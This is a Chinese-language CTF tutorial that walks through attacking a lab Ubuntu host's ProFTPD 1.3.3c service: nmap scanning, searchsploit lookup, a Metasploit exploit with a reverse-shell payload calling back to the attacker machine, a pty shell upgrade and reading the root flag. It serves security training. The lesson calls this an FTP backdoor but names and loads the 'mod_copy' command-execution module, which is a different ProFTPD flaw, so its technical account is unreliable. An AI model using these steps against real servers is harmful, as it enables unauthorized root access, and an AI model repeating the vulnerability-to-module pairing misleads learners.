






# CTF夺旗赛教程：P10：FTP服务后门利用 🚩

在本节课中，我们将学习CTF训练中服务安全的一个具体案例：FTP服务后门利用。我们将通过探测靶机服务、分析漏洞信息，并最终利用Metasploit框架获取靶机的root权限，从而找到并提交flag值。

## FTP协议简介 📄

FTP是文件传输协议的英文简称，中文称为文件协议。它用于在Internet上控制文件的双向传输，同时也是一个应用程序。基于不同操作系统有不同的FTP服务，但所有应用程序都遵守同一种协议来传输文件。

在FTP的使用中，用户经常遇到两个概念：下载和上传。
*   **下载**：从远程主机拷贝文件到自己的计算机。
*   **上传**：将文件从自己的计算机拷贝到远程主机。

用专业术语来说，用户可以通过客户端程序从远程主机上传或下载文件。FTP就是规定这种文件传输的法则。

## 实验环境搭建 💻

上一节我们介绍了FTP的基本概念，本节中我们来看看本次实验的具体环境。

*   **攻击机**：Kali Linux，IP地址为 `192.168.1.105`。
*   **靶机**：Ubuntu系统，IP地址为 `192.168.1.100`。

我们的目标是获取靶机上的flag值，这需要先获得靶机的控制权限。

## 信息收集与探测 🔍

获得实验环境后，我们的第一步是探测靶机上开放的服务及其版本。这里我们使用Nmap工具。

以下是使用Nmap进行服务版本扫描的命令：
```bash
nmap -sV 192.168.1.100
```
执行该命令后，Nmap会向靶机发送数据包并分析响应，最终输出开放的服务和版本信息。

除了详细版本扫描，也可以使用快速扫描方式获取更全面的信息，包括服务版本、操作系统版本和路由信息等。

以下是Nmap快速扫描的命令示例：
```bash
nmap -T4 -A -v 192.168.1.100
```
参数说明：
*   `-T4`：设置扫描速度为最快。
*   `-A`：启用操作系统检测、版本检测、脚本扫描和路由跟踪。
*   `-v`：显示详细输出信息。

扫描完成后，我们获得了靶机的开放端口信息：21端口（FTP服务）、22端口（SSH服务）和80端口（HTTP服务）。本节课的重点是FTP服务。

## 漏洞分析与查找 🕵️♂️

在扫描结果中，我们发现了FTP服务的具体软件及其版本：ProFTPD 1.3.3c。下一步是查找该版本软件是否存在已知漏洞。



我们使用`searchsploit`工具来搜索公开的漏洞利用代码。
```bash
searchsploit ProFTPD 1.3.3c
```
搜索结果显示，存在一个名为“ProFTPD 1.3.3c - ‘mod_copy’ Command Execution (Metasploit)”的远程代码执行漏洞。这表明该版本软件存在一个后门，可以被利用来执行任意命令。

## 利用Metasploit进行攻击 ⚔️

上一节我们找到了可利用的漏洞，本节中我们使用Metasploit框架来实施攻击。Metasploit集成了该漏洞的利用模块，使用起来更为方便。



首先，启动Metasploit控制台。
```bash
msfconsole
```
启动后，在msf6提示符下搜索该漏洞模块。
```bash
search ProFTPD 1.3.3c
```
找到对应的漏洞利用模块后，使用`use`命令加载它。
```bash
use exploit/unix/ftp/proftpd_modcopy_exec
```
接着，查看该模块可用的攻击载荷。
```bash
show payloads
```
我们选择使用`cmd/unix/reverse`这个载荷。设置攻击载荷。
```bash
set payload cmd/unix/reverse
```
现在需要配置必要的参数。使用`show options`查看需要设置的选项。
```bash
show options
```
需要设置的参数包括：
*   `RHOSTS`：靶机的IP地址 (`192.168.1.100`)。
*   `LHOST`：攻击机（监听端）的IP地址 (`192.168.1.105`)。

使用`set`命令进行设置。
```bash
set RHOSTS 192.168.1.100
set LHOST 192.168.1.105
```
配置完成后，执行攻击。
```bash
exploit
```
命令执行后，Metasploit会发送攻击载荷。如果成功，我们将获得一个反向shell，并显示在终端中。此时，使用`id`命令可以验证当前权限，我们发现已经直接获得了`root`权限。

## 终端优化与寻找Flag 🏁





成功获取shell后，我们获得的终端可能功能不完整。为了更好的操作，我们可以使用Python的PTY模块来生成一个功能更全的终端。

在获得的shell中执行以下命令：
```python
python -c "import pty; pty.spawn('/bin/bash')"
```
执行后，我们会得到一个更美观、功能更完整的bash shell。

接下来，开始寻找flag值。在CTF比赛中，flag通常存放在特定目录下，例如根目录(`/`)或`/root`目录。



首先，查看当前目录。
```bash
pwd
```
然后，切换到根目录并列出文件。
```bash
cd /
ls -alh
```
最后，切换到`/root`目录寻找flag文件。
```bash
cd /root
ls -alh
```
发现名为`flag`的文件后，使用`cat`命令查看其内容。
```bash
cat flag
```
获取到flag值后，即可在比赛平台提交得分。



## 总结 📝

本节课中我们一起学习了针对FTP服务后门的完整利用流程。

我们首先进行信息收集，使用Nmap扫描靶机开放的服务和版本。然后，利用`searchsploit`查找特定版本ProFTPD的公开漏洞。接着，使用Metasploit框架加载漏洞利用模块，配置参数并发起攻击，成功获得了靶机的root权限。最后，我们优化了获得的shell，并在系统中找到了flag值。


对于开放了FTP、SSH、HTTP等服务的系统，每个端口、服务及其版本信息都可能成为攻击面。在CTF比赛或安全测试中，应充分利用现有漏洞利用代码，而不仅仅局限于某一种攻击方式。